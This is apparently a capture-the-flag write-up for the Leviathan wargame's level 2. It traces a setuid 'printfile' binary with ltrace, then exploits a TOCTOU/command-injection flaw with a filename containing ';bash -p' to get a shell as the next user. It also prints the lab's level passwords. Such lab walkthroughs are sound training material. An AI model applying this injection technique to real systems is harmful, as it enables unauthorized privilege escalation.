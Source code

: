 **`leviathan2@gibson:~$ ls`**  
*`printfile`*  

Another setuid binary. 

**`leviathan2@gibson:~$ ./printfile`**  
```
*** File Printer ***
Usage: ./printfile filename
```
**`leviathan2@gibson:~$ ls -la`**  
```
total 36
drwxr-xr-x  2 root       root        4096 Dec  3 08:13 .
drwxr-xr-x 83 root       root        4096 Dec  3 08:14 ..
-rw-r--r--  1 root       root         220 Jan  6  2022 .bash_logout
-rw-r--r--  1 root       root        3771 Jan  6  2022 .bashrc
-r-sr-x---  1 leviathan3 leviathan2 15060 Dec  3 08:13 printfile
-rw-r--r--  1 root       root         807 Jan  6  2022 .profile
```
**`leviathan2@gibson:~$ ./printfile /etc/leviathan_pass/leviathan3`**   
*`You cant have that file...`*  

Well that's odd; it won't let us print the contents of the leviathan3 password file, despite the binary having ownership permissions of `leviathan3`. Let's see what's going on under the hood:

**`leviathan2@gibson:~$ ltrace ./printfile /etc/leviathan_pass/leviathan3`**  
```
__libc_start_main(0x80491e6, 2, 0xffffd5d4, 0 <unfinished ...>
access("/etc/leviathan_pass/leviathan3", 4)                                                                                                        = -1
puts("You cant have that file..."You cant have that file...
)                                                                                                                 = 27
+++ exited (status 1) +++
```

So it's using the `access()` function to determine whether I have read permissions for the referenced file. Since this returned a -1 in the `ltrace`, this fails, and then resorts to `puts()` to print that I don't have access. Let's try running this again with another file, one that we should definitely have read-access to:

**`leviathan2@gibson:~$ ltrace ./printfile /etc/leviathan_pass/leviathan2`**  
```
__libc_start_main(0x80491e6, 2, 0xffffd5d4, 0 <unfinished ...>
access("/etc/leviathan_pass/leviathan2", 4)                                                                                                        = 0
snprintf("/bin/cat /etc/leviathan_pass/lev"..., 511, "/bin/cat %s", "/etc/leviathan_pass/leviathan2")                                              = 39
geteuid()                                                                                                                                          = 12002
geteuid()                                                                                                                                          = 12002
setreuid(12002, 12002)                                                                                                                             = 0
system("/bin/cat /etc/leviathan_pass/lev"...mEh5PNl10e
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                                                             = 0
+++ exited (status 0) +++
```

Here we go. There are several things going on here:
* The `access()` function checks whether we have read permissions to the file referenced in our setuid binary execution argument
* A string is built, using `snprintf()`, concatenating `/bin/cat` with the filename in question
* The `setreuid()` function sets both the real and effective UID to leviathan3
* The `system()` function calls the concatenated string built earlier and executes

As stated above, any "filename" (that we have read permissions for) that is passed to the concatenated string will be executed by `system()`, AFTER `setreuid()` sets the real/effective UID to leviathan3. We can therefore fool the `system()` function into accepting a filename with a command appended to it, otherwise known as a **command injection vulnerability**:

**`leviathan2@gibson:~$ mkdir /tmp/rajh`**  
**`leviathan2@gibson:~$ touch "/tmp/rajh/test;bash -p"`**  
**`leviathan2@gibson:~$ ./printfile "/tmp/rajh/test;bash -p"`**  
*`/bin/cat: /tmp/rajh/test: No such file or directory`*  
*`leviathan3@gibson:~$`*  

So rather than `./printfile` interpreting my referenced file as one file, it interpreted it as a file AND a command; it first executed `/bin/cat /tmp/rajh/test` (which didn't exist), and then executed `bash -p`, which spawned a shell as leviathan3.

**`leviathan3@gibson:~$ cat /etc/leviathan_pass/leviathan3`**  
*`Q0G8j4sakn`*  
